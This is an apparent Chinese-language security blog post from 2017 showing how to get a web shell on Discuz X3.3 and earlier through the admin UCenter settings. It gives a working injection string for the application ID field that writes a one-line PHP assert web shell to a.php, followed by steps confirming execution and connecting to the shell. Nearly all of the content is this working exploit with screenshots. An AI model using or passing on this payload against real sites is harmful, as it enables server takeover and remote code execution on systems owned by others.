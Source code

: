 ```yaml
---
title: "discuz 后台 getshell"
date: 2017-12-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


适用于 Discuz X3.3 及之前版本

<!--more-->

站长 - Ucenter 设置 - Ucenter 应用 ID

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512699.jpg)

填入代码

`123');file_put_contents('a.php','<?php assert($_POST[a])?>');//`

保存

本地查看 config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512701.jpg)

访问 /config/config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512703.jpg)

空白

file_put_contents 执行成功

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512704.jpg)

连接 a.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512707.jpg)